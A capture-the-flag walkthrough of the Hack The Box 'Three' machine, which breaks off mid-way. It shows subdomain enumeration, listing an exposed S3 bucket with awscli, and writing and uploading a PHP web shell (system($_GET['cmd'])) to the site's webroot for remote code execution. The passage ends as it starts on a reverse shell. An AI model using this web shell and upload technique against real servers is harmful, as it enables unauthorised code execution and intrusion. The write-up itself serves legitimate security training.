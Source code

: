 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# Summary 

* in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it. 

# NMAP
![](/Assets/HTB/THREE/assets/nmap.png)

# Ports 
we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser . 



![](/Assets/HTB/THREE/assets/web.png)



By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow .

**NOTE** : add ip of machine in **/etc/hosts** 

like that  echo **"10.129.10.31 thetoppers.htb" | sudo tee -a /etc/hosts**

![](/Assets/HTB/THREE/assets/gobuster.png)

we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**_  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that 


![](/Assets/HTB/THREE/assets/response.png)

The webpage only contains the perivous JSON.

We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli** 

First, we need to configure it using the following command. **aws configure**

![](/Assets/HTB/THREE/assets/ls.png)

We can list all of the S3 buckets hosted by the server by using the ls command.

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage.

**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution.


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command

**<?php system($_GET["cmd"]); ?>**

then make file php 

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._

























